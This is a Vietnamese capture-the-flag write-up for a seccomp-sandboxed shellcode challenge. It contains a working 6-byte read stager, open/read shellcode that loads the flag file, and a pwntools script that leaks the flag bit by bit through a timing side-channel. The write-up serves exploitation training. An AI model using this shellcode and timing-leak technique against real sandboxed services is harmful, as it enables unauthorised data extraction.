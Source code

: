 # SHELLCODE+TIMING ATTACK

Bài này ta được cung cáp file src như sau :
```C
// gcc chall.c -o chall -lseccomp

#define _GNU_SOURCE 1

#include <sys/mman.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>
#include <unistd.h>
#include <stdio.h>
#include <seccomp.h>

void *shellcode_mem;
size_t shellcode_size;

int main(int argc, char **argv, char **envp)
{
    shellcode_mem = mmap((void *) 0x1337000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0);
    assert(shellcode_mem == (void *) 0x1337000);
    puts("hihihihi");
    puts("Welcome to the KCSCTF shellcode sandbox!");
    puts("======================================");
    puts("Allowed syscalls: open, read");
    puts("You've got 6 bytes, make them count!");
    puts("======================================");
    fflush(stdout);

    shellcode_size = read(0, shellcode_mem, 0x6);
    assert(shellcode_size > 0);

    scmp_filter_ctx ctx;
    ctx = seccomp_init(SCMP_ACT_KILL);

    assert(seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0) == 0);    
    assert(seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0) == 0);

    assert(seccomp_load(ctx) == 0);

    ((void(*)())shellcode_mem)();
}
```
ta có thể thấy rằng ở bài này tác giả đã cố ý sử dụng seccomp để cho ta chỉ có thể sử dụng hai syscall là sys.read và sysopen . Cùng với đó ta có thể thấy trước 
dó chương  trình đã gọi hàm mmap để tạo ra một khoảng bộ nhớ để có quyền RWX và sẽ đọc 6byte vô địa chỉ đó(0x1337000), rồi mới thiết lập seccomp ,cuối cùng nó sẽ thực thi 6byte shellcode mà ta đã ghi vô 0x1337000.
. Vậy ta chỉ còn có cách là dùng 6 byte shellcode đó gọi hàm read và ta sẽ ghi thêm shellcode vô địa chỉ(0x1337000+6) để điều khiển chương trình .

# PLAN 
1. dùng 6 byte shellcode đọc để gọi hàm read vô địa chỉ 0x1337000+6 tiếp tục điều khiển chương trình
2. ta sẽ đọc flag và brute force từng byte của chương trình để lấy flag

# Stage1: 

phần này thì chỉ cần debug chương trình , đặt break point ngay trước khi chương trình thục thi shell code của ta thì ta sẽ thấy các thanh ghi như sau :
```asm
rax: 0
rdx: 0x1337000
rdi: giá trị nào đó 
```
vậy để có thể gọi hàm read thì ta chỉ cần rsi chỏ đển địa chỉ buffer mà ta muốn đọc vô và rdi=0 để có thể đọc dưới dạng là stdin . vậy ta sẽ có shell code như sau :
```asm
mov esi,edx
xor edi,edi
syscall
```

và ta có shellcode như sau :
```python
shellcode=b"\x89\xD6\x31\xFF\x0F\x05"
```
ok ta thấy rằng shell code của ta khônng dính null byte và vừa đủ 6 byte.

# Stage2:
ta có code như sau :

```asm
        xor rax,rax         
        mov al,2
        xor rdi,rdi
        mov edi,0x1337110     ; địa chỉ sẽ chứ đường dẫn "./flag\x00" của ta 
        xor rsi,rsi
        xor rdx,rdx
        syscall               ; sys open 
        mov edi,eax           ; 
        xor rax,rax
        mov dl,0x99
        xor rsi,rsi
        mov esi,0x1337210     ; sau khi mở thì ta sẽ đọc flag vô địa chỉ 0x1337210
        syscall               ; sys read
```


```python
            shellcode=b"A"*6 # padding qua 6 byte trước đó 
            shellcode+=shellcode__(index,bit_offset)# shellcode ở phía  trên 
            shellcode=shellcode.ljust(0x110) # padding đế địa chỏ chứa đường dẫn của ta 
            shellcode+=b'./flag\x00' # đường dẫn 
```

OK vậy là xong bước 2 . debug trên local thì ta sẽ thấy chương trình đã đọc flag vô địa chỉ 0x1337210;


Bước còn lại là lấy flag ra . Ta sẽ sử dụng timing attack , ta sẽ cho chương trình đọc từng byte của flag vô thanh ghi bl sau đó đối chiếu với từng ký tự asccii có thể in ra .
nhưng cách này thì rât lâu bơi ta sẽ phải đối chiếu với rất tất cả các ký tự asccii trong string.printable.Và lúc thi thì mình làm cách này =))

Nhưng sau khi xem solution thì mình sẽ đôi chiếu từng từng bit , dùng cách này thì ta sẽ chỉ cần 8 lần brute thì ta đã có thể lấy được 1 chữ .

mình sẽ lấy VD để dễ giải thích hơn :

ta biết chữ đầu tiên trong flag sẽ là "K" dưới dạng bin thì sẽ là '0100 1011', ta sẽ đối chiếu từng bit như sau 

```asm
        mov eax,0x1337210
        add eax,{index}
        mov bl, byte ptr[rax]
        ; vd ta muốn lấy second least significant bit(bit thứ 2 từ phải qua) tương ứng với index=1
        shr bl,{bit_offset}    ;(0100 1011) >> 1= 0010 0101
        shl bl,7               ; 0010 0101 << 7= 1000 0000
        shr bl,7               ; 1000 0000 >> 7= 0000 0001
        INFI_LOOP:
            cmp bl,0           ; nếu bit đó là 1 thì ta sẽ cho chương trình chạy vô hạn 
            je end             ; không thi thoát
            jmp INFI_LOOP
        end:
```

vậy để kiểm tra xem chương trình có rơi vào INFI_LOOP không thì ta chỉ cần :
```python
start=time.time()# thời gian ngay sau khi ta send payload lần 2
p.recvall(timeout=1).decode()# nếu chương trình rơi vào vong INFI loop thì sẽ có một khoảng khác giữa giá trị của now và start. còn nếu chương trình nhảy vô end thì nó sẽ thoát luôn
now=time.time()
```



vậy ta sẽ có code như sau :
```python
def shellcode__(index,bit_offset):
    shellcode=asm(
        f'''
        xor rax,rax
        mov al,2
        xor rdi,rdi
        mov edi,0x1337110
        xor rsi,rsi
        xor rdx,rdx
        syscall
        mov edi,eax
        xor rax,rax
        mov dl,0x99
        xor rsi,rsi
        mov esi,0x1337210
        syscall

        mov eax,0x1337210
        add eax,{index}
        mov bl, byte ptr[rax]
        shr bl,{bit_offset}
        shl bl,7
        shr bl,7
        cmp bl,0
        INFI_LOOP:
            cmp bl,0
            je end
            jmp INFI_LOOP
        end:
        '''
        )
    return shellcode
def timing_attack(index):
    string_bin=''
    for bit_offset in range(8):
        
            #p=remote("103.162.14.240", 15000)
            p=process(exe.path)
            #GDB()
            shellcode=b"\x89\xD6\x31\xFF\x0F\x05"
            p.send(shellcode)
            shellcode=b"A"*6
            shellcode+=shellcode__(index,bit_offset)
            shellcode=shellcode.ljust(0x110)
            shellcode+=b'./flag.txt\x00'
            p.send(shellcode)
            start=time.time()
            p.recvall(timeout=1).decode()
            now=time.time()
            if (now-start>1):
                string_bin='1'+string_bin
            else:
                string_bin='0'+string_bin
    byte=int(string_bin,2)
    return byte
```

author scipt in s.py

my script in p.py

chạy script và ĐỢI thì ta sẽ có flag:

![image](https://github.com/DoQuangPhu/CTF_writeups/assets/93699926/5b920ea4-d031-46ca-8666-ab2bb1aef9bf)

flag`KCSC{S1de_channel_hihihi_d6e25f87c7ebeef6e80df23d32c42d00}`




